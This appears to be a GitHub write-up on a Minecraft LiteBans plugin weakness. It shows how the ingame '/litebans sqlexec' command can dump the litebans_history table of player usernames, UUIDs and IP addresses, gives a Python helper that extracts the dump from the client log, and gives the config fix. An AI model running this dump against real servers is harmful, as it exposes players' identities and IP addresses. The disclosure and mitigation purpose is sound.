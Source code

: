 # LiteBans Plugin User Database Dump Exploit

**Overview**

LiteBans is a popular and paid banning plugin for server moderators and administrators.

MySQL is one of the most used database management systems, used to store data in tables. MySQL supports SQL queries, which are commands or statements that access or modify data in a database.

Examples of SQL queries:
- `SELECT * FROM my_table;` returns everything that is stored in the table my_table.
- `SELECT email, password FROM my_table;` returns emails and passwords that is stored in the table my_table.

**Analysis**

When installing LiteBans on your server, the plugin creates a local MySQL server for storing player data and punishments.

A feature in the plugin makes you able to execute SQL queries through an ingame command. You can exploit this feature, to dump the server's player data database. Of course, this command requires administrator permissions to use.

The plugin creates seven tables in the database:
- litebans_bans
- litebans_history
- litebans_kicks
- litebans_mutes
- litebans_servers
- litebans_sync
- litebans_warnings

The table `litebans_history` contains all player data (last seen date, username, UUID and IP-address), which is the table you want to dump.

**Exploitation**

Simply execute the command `/litebans sqlexec SELECT * FROM litebans_history;`. The command will execute the SQL query and take everything that is stored in the SQL table `litebans_history` and display it in the ingame chat.

To get the database content, go to the latest client log file located at `%APPDATA%\.minecraft\logs\latest.log` and copy the dumped database table from start to bottom.

You can use this simple Python tool to format the database:
```python
def main():
    lines = [x.strip() for x in open(input("Database path > "), encoding="utf-8", errors="ignore").readlines() if x.strip()]
    with open("out.txt", "w") as file:
        for line in lines:
            file.write(line.split("[CHAT] ")[1] + "\n")

if __name__ == "__main__":
    main()
```

**Prevention**

In the update LiteBans 2.3.10 - 2.3.15, a security patch was added. The configuration `security.sqlexec` was now set to true by default, which means only the console can use the sqlexec feature.

To prevent your server from getting its database dumped, set the security feature `security.sqlexec` to true in the configuration file of LiteBans located at `./plugins/LiteBans/config.yml`.

This configuration change will block players from using the command `/litebans sqlexec`.

```yaml
security:
  # If enabled, only the console can see IP addresses in /dupeip output.
  # This does not prevent players from using /dupeip. It only prevents them from seeing IP addresses.
  dupeip: true
  # If enabled, only the console can use /iphistory.
  iphistory: true
  # If enabled, only the console can use "/litebans sqlexec".
  sqlexec: true
```